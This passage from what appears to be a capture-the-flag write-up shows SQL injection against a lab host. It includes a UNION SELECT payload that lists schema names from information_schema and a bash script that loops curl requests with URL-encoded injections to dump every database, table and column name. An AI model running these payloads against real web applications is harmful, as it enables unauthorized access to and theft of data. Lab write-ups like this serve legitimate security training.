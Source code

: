 
In case it’s not clear in the url encoding, it’s `' union select schema_name
FROM information_schema.schemata limit 1 offset X;-- -`, where I change X each
time. 0-3 return names, and 4 returns null. Now I have table names:

    
    
    information_schema
    mysql
    ozdb
    performance_schema
    

#### Script To Dump Tables / Columns

I want to next get the columns from each table, but that could be a lot, and
it’s past time to make a short script. Since I have a curl commands that’s
working well for me, I’ll just write a bash script that runs through the
`information_schema.columns` table getting db name, table name, and column
name. I’ll print the dbs and the tables to the screen, and record the column
names. Some trial and error showed me that 333 was enough to loop over and get
results:

    
    
      1 #!/bin/bash
      2 
      3 cur_db=''
      4 cur_table=''
      5 
      6 for i in $(seq 0 333); do
      7 
      8     result=$(curl -s "http://10.10.10.96/users/'%20union%20select%20concat(TABLE_SCHEMA,':',TABLE_NAME,':',COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA%20!                                      =%20'Information_schema'%20LIMIT%201%20OFFSET%20${i};--%20-" | jq -r .username)
      9 
     10 
     11     db=$(echo $result | cut -d: -f1)
     12     table=$(echo $result | cut -d: -f2)
     13     col=$(echo $result | cut -d: -f3)
     14 
     15     if [ "${db}" != "${cur_db}" ]; then
     16         echo "${db}"
     17         cur_db=${db}
     18         cur_table=''
     19     fi
     20 
     21     if [ "${table}" != "${cur_table}" ]; then
     22         echo "    ${table}"
     23         cur_table=${table}
     24     fi
     25 
     26     echo "${result}" >> db_dump/${db}-${table}.columns
     27 
     28 done;
    